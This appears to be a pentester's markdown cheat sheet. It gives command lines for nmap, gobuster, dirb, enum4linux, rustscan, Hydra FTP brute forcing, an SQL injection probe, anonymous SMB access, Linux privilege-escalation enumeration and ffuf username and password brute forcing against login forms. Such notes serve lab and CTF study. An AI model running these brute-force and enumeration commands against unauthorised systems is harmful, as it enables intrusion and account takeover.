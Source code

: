 ### Initial Scans

nmap -sC -sV -oA nmap/initial 'IP"
nmap -p- -oA nmap/allports 'IP'
nmap -A -p 'open port' 'IP'

gobuster dir -u 'IP or website'  -w /usr/share/wordlists/directory-list-2.3-medium.txt -o gobuster_scan.txt
enum4linux -a 'IP'

### Hydra

hydra -t 4 -l 'Username' -P 'wordlist' -vV 'IP' ftp

### SQL

' " AND 1 -- -

### SMB

smbclient //IP/ username -U password -p PORT
smbclient //IP/ Anonymous -U -p PORT     (use this to see if Anonymous access is allowed / may need to see what directory is available for SMB)

### Manual

-uname -a
-find /-perm -4000 -ls 2>/dev/null
-ss -lntp (netstat -alntp)
-dpkg -l, rpm -qa
-find /-ls 2>/dev/null

### Scripts

LinEnum.sh
LinuxPrivChecker.py
Smnart Linux Enumeration
LinPEAS

### Favicon

curl 'IP'/favicon.ico | md5sum
must run with a known favicon
(search through <https://wiki.owasp.org/index.php/OWASP_favicon_database>)

### http Headers

curl "IP' -v

### ffuf

fast word fuzzer

ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.'header to call your shot'" -u 'IP' -fs 2395  
setting a file size will not show those results

ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u 'IP'/customers/signup -mr "username already exists"
enumerate usernames / assuming customers/signup

ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u 'IP'/customers/login -fc 200
enumerate passwords / assuming customers/login

### dirb

dirb 'IP' /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
dirbuster is used to brute force directories and filenames on web/application servers

### gobuster

gobuster dir --url 'IP' -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
gobuster is used to brute force directories, filenames and DNS subdomains

### rustscan
rustscan -t 1500 'IP' -- -A -sC
rustscan -a 1500 'IP' -- -A -sC